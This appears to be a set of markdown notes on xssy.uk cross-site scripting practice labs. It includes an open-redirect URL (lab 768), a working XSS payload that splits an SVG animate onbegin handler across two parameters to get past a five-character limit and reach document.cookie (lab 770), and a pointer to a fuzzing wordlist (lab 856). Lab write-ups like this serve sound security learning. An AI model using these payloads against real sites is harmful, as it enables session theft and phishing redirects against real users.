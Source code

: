 
### Lab 699: Unlinked
- **URL Lab**: https://xssy.uk/lab/699
- **Status**: Not solved yet

---

### Lab 768: Open Redirect
- **URL Lab**: https://xssy.uk/lab/768
- **Payload**: 
```
https://eqh42jmm.xssy.uk/index.html
```
- **Full URL**: 
```
https://5zrbyrdi.xssy.uk/target.ftl?return=https://eqh42jmm.xssy.uk/index.html
```
- **Description**: Can redirect, but fail to get cookie

---

### Lab 770: Length Limits 5 Characters [We Did It: Bypass]
- **URL Lab**: https://xssy.uk/lab/770
- **Payload**: 
```html
search=<svg>&secret=<animate onbegin=alert(document.cookie)>
```
- **Full URL**: 
```
https://zy4spebe.xssy.uk/target.ftl?search=%3Csvg%3E&secret=%3Canimate%20onbegin=alert(document.cookie)%3E
```
- **Description**: We can only inject 5 characters in search parameter:
```javascript
document.getElementById('tracker').innerHTML = search.substring(0,5);
```
But when inspect the code, found this:
```javascript
var secretSearch = decodeURI(urlParams.get('secret'));
```
Got second parameter name `secret`. First parameter & second parameter are joined in one tag:
```javascript
document.getElementById('tracker').firstChild.innerHTML = clean;
```

---

### Lab 856: Parameter Name 2
- **URL Lab**: https://xssy.uk/lab/856
- **Status**: Not solved yet
- **Description**: Need fuzzing to find hidden parameter. Reference: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt

---
